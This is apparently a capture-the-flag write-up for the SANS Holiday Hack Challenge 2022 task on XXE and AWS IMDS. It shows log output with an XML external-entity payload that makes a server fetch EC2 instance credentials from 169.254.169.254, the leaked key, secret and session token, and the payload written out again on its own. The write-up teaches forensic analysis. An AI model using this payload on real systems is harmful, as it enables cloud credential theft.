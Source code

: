 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Web Ring
### IMDS, XXE, and Other Abbreviations
Difficulty: :christmas_tree::christmas_tree:
The last step in this attack was to use [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

#### Hints
##### Instance Metadata Service
*From: Alabaster Snowball*  
AWS uses a specific IP address to access [IMDS](https://www.sans.org/blog/cloud-instance-metadata-services-imds-/), and that IP only appears twice in this PCAP.

#### Solution
nowing the attacker extracted the secret keys from the IMDS service, it is possible to filter on the string access within the `weberror.log` file and add some context to identify the complete request:
```bash
thedead@dellian:~$ grep -m 1 -A 24 -B 13 -i "access" weberror.log
18.191.6.79 - - [05/Oct/2022 16:48:57] "GET / HTTP/1.1" 200 -
ic| xml: (b'<?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [ <!ENTITY id SYSTE'
          b'M "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security'
          b'-credentials/ec2-instance"> ]>
         <product><productId>&id;</productId></pro'
          b'duct>
         ')
    parsed_xml: (b'<product><productId>{
                  "Code" : "Success",
                  "LastUpdated" : "2022-10-0'
                 b'5T16:43:21Z",
                  "Type" : "AWS-HMAC",
                  "AccessKeyId" : "ASIAV4AVRXQVJ267'
                 b'LD2Q",
                  "SecretAccessKey" : "OpGR4v70ygZ3RFf4WTzjNL45pQayRwZgBUgd0LJT",'
                 b'
                  "Token" : "IQoJb3JpZ2luX2VjECEaCXVzLWVhc3QtMiJHMEUCIHDsZXiUuHIUrLNH5p'
                 b'AeMiv4aUMVIScjwbo1E9LctQ3rAiEA819eJ24mILbxM3eELK2xrgskHxsRmrza/jIj3y96/sgqsg'
                 b'QI2v//////////ARADGgw0MDM3NzIxMjgyOTgiDMAdG5EGamJ4Z2FwyiqGBPy+CL9AfXIGfLBBDC'
                 b'NkCyl5WOMN7owHr84k+hz4XZYBUp7/+KFZgEiKARroMuD6ofdNRvAj7dQ1/wFxeR6wezUPUkHqtc'
                 b'303oTBY7eTk5EQXClpKsmV1l25QAfD0DOL6FPxpjLPug0AbDFlIhjUeImvk3NBWiUHtXptrJH2ks'
                 b'SaQqU2DBPkkQ4IjMBMbLj0ZdJVWaiUy9sf5ecc2d/qVQU1c6SrYLg0HpyuH9brqm0zuv8/tR17Y/'
                 b'Jo2aNeNGX1wvyb5jP1FcQteypV6IqKIUUCADJ7chYeMypMlwV77phvrZco921O6MV+JlhSIomuzF'
                 b'RLdvzD+RP8DyLZeYZ65vKzr6h0yc+XIHOCT+P01pWQgfZBtvfCJKLKqwTMEbIr/i/xgGmHoCTzx6'
                 b'm38kd4EZvGXZMp3EEasdnqTtKLOR6JFAAlW8SoxOKRL1MshK3SUmYvWnMoLKCotPwyJeAMHEHuZi'
                 b'pNMiZ2gbN//PMbUBnPjNVFBP4SfHaTv7EHzHNpTl5toy8qlPyxE0yLbh5a//DF5wJQE6UKfXWlQh'
                 b'k9/NVM7QAAzEzWPiFTp8ajRIDjPoprVlX3yUaTUHOH8PwMtURCJLl0sOQaJtRGWEMrH52ls5e83p'
                 b'm0ta8257vu8HyTR7zgc/7a0ZsoxetlsB7VYIKyXnETO7SMniTO8R/yE1Wn9qAoWp/jMPvn9pkGOo'
                 b'8CLegclGA49hB/LRr/V1bXEyIIRg5Zn93xXvccMX5QyKGVSRghNOVGn/cCglDWc9zSRFRlZ4tHbl'
                 b'Vi1v8021J04REPR69FDuVvpUzEDJfDF1u4XwYGsp7uuuIngiiegP56H5nSYjmpBfyIURwgNvsz6p'
                 b'tpUvplGCxOvBJcKeyborHJDKG40QRXsLpOgB8NTKhgaFNxO7PjA/YrT7g1rYS7xNrKzVIK4tTwxW'
                 b'B5zN5JAQ3pVRp2JB8Q1ng3qsj3UPfZ3O3JjY4U+rrBKPEHIw9B+Pz6kffOu73aPKgo333w/hd9U4'
                 b'slj74JQXPhO9jCYpAF1bLdS/If20Ed6HvGcAONep0A/FrtZ62EWX4HmeYZ4A==",
                  "Expi'
                 b'ration" : "2022-10-05T23:00:40Z"
                }</productId></product>')
    tree: <Element product at 0x7f9baeffc180>
```
It is possible to observe an XXE attack with the following XML payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"> ]>
<product>
	<productId>&id;</productId>
</product>
```
This payload forced the server to fetch the URL `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance` which is the solution for this challenge.  
![169.254.169.254](imgs/169.254.169.254.jpg)  
[https://mobile.twitter.com/csecurity7575](https://mobile.twitter.com/csecurity7575)

---
## Recover the Web Ring

### Open Boria Mine Door
### Glamtariel's Fountain
### The Web Ring
## Recover the Cloud Ring
### AWS CLI Intro
### Trufflehog Search
### Exploitation via AWS CLI
## Recover the Burning Ring of Fire
### Buy a Hat
### Blockchain Divination
### Exploit a Smart Contract
### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring